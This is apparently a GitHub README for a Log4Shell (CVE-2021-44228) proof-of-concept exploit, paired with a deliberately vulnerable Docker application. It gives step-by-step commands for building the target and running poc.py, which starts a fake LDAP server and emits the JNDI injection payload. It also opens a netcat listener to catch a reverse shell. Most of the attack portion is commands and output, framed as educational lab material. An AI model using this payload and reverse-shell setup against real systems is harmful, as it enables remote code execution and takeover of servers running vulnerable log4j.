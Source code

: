 A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. <br><br>

Recently there was a new vulnerability in log4j, a java logging library that is very widely used in the likes of elasticsearch, minecraft and numerous others.

In this repository we have seen how to exploit log4j vulnerability with a simple vulnerable application

You can download the POC and its dependency files from [here](https://drive.google.com/drive/folders/1gpNdCJnvYI0qjVJMeOFkfd_i3NCujTPT).

#### Usage:

* Step #1 : Clone & Download the Vulnerable application from above.<br>
* Step #2 : Install Docker and run the following commands to host a vulnerable application. <br>

    ```c
    1: # docker build -t log4j-shell-poc .
    2: # docker run --network host log4j-shell-poc
    ```
    Once it is running, you can access it on localhost:8080

    <br>

* Step #3 : Download and extract the POC folder from above link and install it dependencies.<br>

    ```py
    $ tar -xvf jdk-8u20-linux-x64.tar.gz
    $ pip3 install -r requirements.txt
    $ python3 poc.py --userip localhost --webport 8000 --lport 4545

    [!] CVE: CVE-2021-44228

    [!] Github repo: https://github.com/Hack-with-8k0b/log4j-App-and-Poc

    [+] Exploit java class created success
    [+] Setting up fake LDAP server

    [+] Send me: ${jndi:ldap://localhost:1389/a}

    Listening on 0.0.0.0:1389
    ```
    
* Step #4 : Start a netcat listener in different terminal to accept reverse shell connection.<br>
```py
nc -lvnp 4545
```
* Step #5 : Copy & paste the link created by the poc into the vulnerable input field .<br>

    This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>


Disclaimer
----------
The above POC and Vulnerable App is simplified version of kozmer's Github log4jshell-poc, This POC is for educational purposes only, so use it on your own risks.

This is to help security researchers and newbies to learn about log4jshell vulnerablity and attack, for any concerns and queries feel free to reach me out @ nbharathkumara@gmail.com
